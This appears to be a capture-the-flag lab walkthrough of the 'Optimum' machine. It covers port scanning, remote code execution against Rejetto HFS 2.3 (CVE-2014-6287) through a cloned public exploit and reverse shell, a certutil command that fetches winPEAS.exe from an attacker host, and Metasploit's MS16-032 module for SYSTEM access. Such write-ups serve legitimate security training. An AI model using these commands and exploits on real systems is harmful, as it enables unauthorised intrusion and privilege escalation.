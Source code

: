 ![Header](images/image0.png)

# Optimum - Penetration Testing Walkthrough (Extended Markdown Report)

This is the full technical walkthrough for the **Optimum** machine (IP: `10.129.58.232`).  
It documents every phase from enumeration to root access, including vulnerability analysis and exploit methodology.  
All referenced screenshots are stored under `images/imageX.png`.

---

## 🧭 Enumeration

We started with a full TCP port scan to identify available services on the target system:

```bash
nmap -p- -Pn 10.129.58.232 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && nmap -Pn 10.129.58.232 -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && nmap -T5 -Pn 10.129.58.232 -v --script vuln -oN nmap_vuln.txt
```

![Nmap Scan](images/image7.png)

The scan revealed **port 80 (HTTP)** open, indicating a running web server — the only entry point available for further exploration.

---

## 🌐 Web Enumeration and Service Identification

We visited the target in a browser:  
👉 `http://10.129.58.232/`

Inspecting the HTML source revealed the service type and version.

![Service Version](images/image4.png)

The page identified the software as **Rejetto HTTP File Server (HFS) 2.3** — a lightweight Windows-based file-sharing server.

---

## 🧠 Vulnerability Discovery — CVE-2014-6287

We discovered that **HFS 2.3** is vulnerable to **CVE-2014-6287**, a critical **Remote Code Execution (RCE)** vulnerability.

### 🔍 About CVE-2014-6287

This vulnerability stems from improper input sanitization in HFS’s template system.  
Attackers can inject arbitrary commands through specially crafted HTTP requests that abuse HFS’s file path processing logic.  
When executed, the payload triggers a PowerShell command or similar remote execution vector, granting remote shell access.

**Reference Exploit:**  
🔗 [https://github.com/thepedroalves/HFS-2.3-RCE-Exploit](https://github.com/thepedroalves/HFS-2.3-RCE-Exploit)

---

## ⚙️ Exploitation - HFS 2.3 RCE

We cloned the public exploit and executed it to deliver a reverse shell payload:

```bash
git clone https://github.com/thepedroalves/HFS-2.3-RCE-Exploit.git
cd HFS-2.3-RCE-Exploit
python3 exploit.py 10.129.58.232 8080
```

The exploit successfully executed, providing a reverse shell connection to our attacker system.

![Exploit Success](images/image1.png)

We confirmed access to the target and retrieved the **user flag** from the desktop.

![User Flag](images/image2.png)

---

## 🧩 Post-Exploitation Enumeration

We uploaded and executed **WinPEAS** to gather local privilege escalation data:

```powershell
certutil -urlcache -split -f "http://10.10.15.30/winPEAS.exe" winPEAS.exe
.\winPEAS.exe
```

The tool highlighted several system details and user information, including **kostas’s** credentials.

![WinPEAS Output](images/image3.png)

---

## 🚀 Privilege Escalation — MS16-032

We moved to **Metasploit** for systematic privilege escalation discovery using the local exploit suggester:

```bash
run post/multi/recon/local_exploit_suggester
```

![Local Exploit Suggester](images/image6.png)

### 🔍 About MS16-032

**MS16-032** is a privilege escalation vulnerability that exploits flaws in the **secondary logon service** of Windows.  
It allows a low-privileged user to impersonate higher-privileged tokens (SeImpersonatePrivilege), effectively executing code as **NT AUTHORITY\SYSTEM**.

We executed the Metasploit module to elevate privileges:

```bash
use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
set SESSION 1
run
```

The exploit completed successfully, spawning a **SYSTEM-level Meterpreter shell**.

![SYSTEM Shell](images/image5.png)

---

## 🏁 Root Access

With elevated privileges, we accessed the Administrator’s desktop and retrieved the **root flag**:

```
C:\Users\Administrator\Desktop\root.txt
```

---

## ✅ Conclusion

The **Optimum** machine demonstrates a practical, real-world exploitation chain involving a known RCE vulnerability followed by a local privilege escalation exploit.

**Summary of Attack Path:**
1. **Reconnaissance:** Identified Rejetto HFS 2.3 service.  
2. **Exploitation:** Used CVE-2014-6287 for RCE and gained shell as kostas.  
3. **Privilege Escalation:** Executed MS16-032 to achieve SYSTEM access.  
4. **Root Access:** Retrieved Administrator flag.

---

## 🧰 Summary of Tools & Exploits Used

| **Tool / Technique** | **Purpose** | **Usage Phase** |
|-----------------------|-------------|-----------------|
| **Nmap** | Port and service enumeration | Enumeration |
| **Rejetto HFS 2.3 RCE (CVE-2014-6287)** | Gain remote command execution | Exploitation |
| **Python Exploit Script** | Deliver PowerShell reverse shell | Exploitation |
| **WinPEAS** | Privilege escalation enumeration | Post-Exploitation |
| **Metasploit Local Exploit Suggester** | Identify privilege escalation exploits | Privilege Escalation |
| **MS16-032 Exploit** | Escalate privileges to SYSTEM | Privilege Escalation |
| **PowerShell / Certutil** | Transfer enumeration scripts | Post-Exploitation |

---

## 🧱 Attack Chain Diagram

```text
[Enumeration]
   ↓
[Nmap Scan → Identify HFS 2.3]
   ↓
[Exploit CVE-2014-6287 → Remote Shell]
   ↓
[Foothold as kostas]
   ↓
[WinPEAS → Enumerate Privilege Escalation]
   ↓
[MS16-032 Exploit → SYSTEM Access]
   ↓
[Administrator Root Flag Retrieved]
```

---

**User Flag Path:** `C:\Users\kostas\Desktop\user.txt`  
**Root Flag Path:** `C:\Users\Administrator\Desktop\root.txt`

---
